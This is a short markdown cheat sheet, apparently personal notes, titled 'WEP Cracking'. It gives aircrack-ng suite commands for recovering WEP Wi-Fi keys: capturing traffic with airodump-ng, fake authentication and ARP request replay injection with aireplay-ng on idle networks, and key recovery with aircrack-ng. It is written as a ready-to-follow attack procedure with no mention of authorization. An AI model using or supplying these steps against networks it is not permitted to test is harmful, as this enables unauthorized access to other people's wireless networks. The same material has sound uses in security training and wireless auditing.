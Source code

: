 ```yaml
---
title: WEP Cracking
---
```


### Busy Network

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename>
````

* Minimum ~50K Data packets are required in order to crack the password
* Aircrack-ng output will not always consist of the password in ASCII format. We can connect to the network using the numeric password after removing the colons

---

### Idle Network

An "Association Attack/ Fake Authentication" needs to be performed in order to connect to the network and inject packets into the network in order to increase the traffic on the network.

Injecting packets onto the network can be done using "ARP Request Replay Attack". There are other methods but this is the most reliable approach

<u>Working</u>
  
Wait for an ARP packet to be generated  
Capture the packet and repeat it (Retransmit it)  
Each ARP packet will cause the Access Point to generate an new IV which can be collected to crack the password

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aireplay-ng --fakeauth 0 -a <router-bssid> -h <myadapter-bssid> <interface>
````

The `<myadapter-bssid>` can be found using `ifconfig` under "unspec" field the 1st 6 fields. When using in aireply-ng replace the dashes with colons

Association with network only means that we want to connect to the network (Similar to clicking the network name in the available network list). We are not authenticated so we cannot send any packets

````bash
aireplay-ng --arpreplay -b <router-bssid> -h <myadapter-bssid> <interface>
aircrack-ng output.cap
````